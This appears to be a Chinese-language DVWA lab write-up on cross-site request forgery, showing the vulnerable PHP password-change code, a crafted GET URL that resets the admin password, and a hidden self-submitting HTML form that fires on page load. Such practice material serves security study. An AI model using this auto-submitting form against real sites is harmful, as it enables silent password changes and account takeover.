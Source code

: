 ```
			
	if (isset($_GET['Change'])) {
	
		// Turn requests into variables
		$pass_new = $_GET['password_new'];
		$pass_conf = $_GET['password_conf'];


		if (($pass_new == $pass_conf)){
			$pass_new = mysql_real_escape_string($pass_new);
			$pass_new = md5($pass_new);

			$insert="UPDATE `users` SET password = '$pass_new' WHERE user = 'admin';";
```

cstf地址

http://192.168.56.80/dvwacn/vulnerabilities/csrf/



##单击我测试，密码将被更改为admin888

http://192.168.56.80/dvwacn/vulnerabilities/csrf/?password_new=admin888&password_conf=admin888&Change=%B8%FC%B8%C4


页面提示

```
密码已更改
```

url解码

```
http://192.168.56.80/dvwacn/vulnerabilities/csrf/?password_new=admin888&password_conf=admin888&Change=更改
```

##csrf本地自动提交

本地新建csrf.html文件

文件内容如下

```
<body onload="javascript:csrf()">
<script>
function csrf(){
document.getElementById("button").click();
}
</script>


<style>
	form{
	display: none;
	}
</style>

	
<form method="GET" action="http://192.168.56.80/dvwacn/vulnerabilities/csrf/">    
    请输入新密码:<br>
    <input type="password" name="password_new" autocomplete="on" value=admin> <br>
    请再输入一次: <br>
    <input type="password" name="password_conf" autocomplete="on" value=admin>
    <br>
    <input type="submit" name="Change" id="button" value="更改">
</form>
</body>
```